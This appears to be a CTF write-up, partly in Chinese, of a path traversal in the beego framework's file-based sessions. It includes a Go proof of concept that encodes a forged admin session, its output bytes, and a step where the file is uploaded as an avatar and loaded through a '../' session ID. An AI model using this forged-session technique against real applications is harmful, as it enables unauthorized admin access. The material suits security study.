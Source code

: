 ```
When use file type session in the beego framework，Hacker can use "../" modify the sessionID value，

Then directory crossing read any file , So I think beego should check the sessionID before read it.

Some example:

1，https://www.anquanke.com/post/id/163575

2，gogs/gogs#5469
```

大体如下: go语言session保存在文件中，所谓的sessionid就是文件名，伪造sessionid即可加载伪造的session.

```
$ apt-get install golang
$ export $GOPATH /home/qianfa/Desktop/pwn/bctf        # 随意
$ go get github.com/astaxie/beego/session
```

```
package main
import (
    "github.com/astaxie/beego/session"
    "log"
)
func main() {
    s := make(map[interface{}]interface{})
    s["username"] = "admin"
    s["UID"] = 1
    encoded_s, err:= session.EncodeGob(s)
    if err != nil {
        log.Fatal(err)
    }
    log.Printf("%v", encoded_s)
    decoded_s, err := session.DecodeGob(encoded_s)
    if err != nil {
        log.Fatal(err)
    }
    log.Printf("%v", decoded_s)
}
```

运行:

```
qianfa@qianfa:~/Desktop/pwn/bctf$ go run poc.go 
2018/11/29 12:23:05 [14 255 129 4 1 2 255 130 0 1 16 1 16 0 0 61 255 130 0 2 6 115 116 114 105 110 103 12 10 0 8 117 115 101 114 110 97 109 101 6 115 116 114 105 110 103 12 7 0 5 97 100 109 105 110 6 115 116 114 105 110 103 12 5 0 3 85 73 68 3 105 110 116 4 2 0 2]
2018/11/29 12:23:05 map[username:admin UID:1]
```

将上边的数组转化为文件即可:

上传改文件: `the avatar saved to /go/src/github.com/checkin/website/static/img/avatar/qgSlJRUsscLgTbZVLppH.png`
